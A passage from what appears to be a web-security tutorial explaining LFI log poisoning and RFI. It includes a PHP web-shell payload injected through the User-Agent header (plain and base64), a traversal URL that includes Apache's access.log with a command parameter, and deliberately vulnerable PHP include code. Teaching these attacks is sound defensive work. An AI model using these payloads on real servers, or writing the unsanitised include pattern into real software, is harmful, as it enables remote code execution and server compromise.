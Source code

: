         ```
        GET / HTTP/1.1
        User-Agent: <?php system($_GET['cmd']); ?> *(do not execute - for explanation only)*
        Host: your-website.com
        ```

        Or:

        ```
        GET / HTTP/1.1
        User-Agent: PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7 ?> *(do not execute - for explanation only)*
        Host: your-website.com
        ```

   3. Your web server writes this User-Agent string into its `access.log` file.

<br>

2. **Attacker step: Include the log file via LFI**
   1. **Attacker URL:** `https://your-website.com/page.php?part=../../../../var/log/apache2/access.log`
   2. **What happens internally:** Your web server tries to include the log file. Since the log file now contains the attacker’s injected PHP code and your app interprets it as PHP, the code is executed.
   3. **Result:** The attacker can now execute arbitrary commands on your server by adding another parameter (`cmd`) to the URL, e.g.: `http://your-website.com/page.php?part=../../../../var/log/apache2/access.log&cmd=ls%20-la` (shows a list of files in the current directory).

---

## **Remote File Inclusion (RFI)**

With **RFI**, the attacker forces your web application to **load a file from an external server that the attacker controls.** This is usually more dangerous than LFI, since the attacker can fully control the file’s contents.

**Requirement for RFI:** The PHP configuration on your server must have `allow_url_include = On`. Fortunately, this is `Off` by default in modern PHP versions, but older or misconfigured systems may be vulnerable.

### **How an RFI vulnerability might look (PHP example)**

Let’s take a similar but even more vulnerable script:

> **PHP**

```php
<?php
// load.php - VULNERABLE CODE FOR RFI
$resource = $_GET['source']; // Gets the value of the 'source' parameter
include($resource); // Includes the specified resource
?>
```
A normal call would be: `https://your-website.com/load.php?source=local_file.php`

---
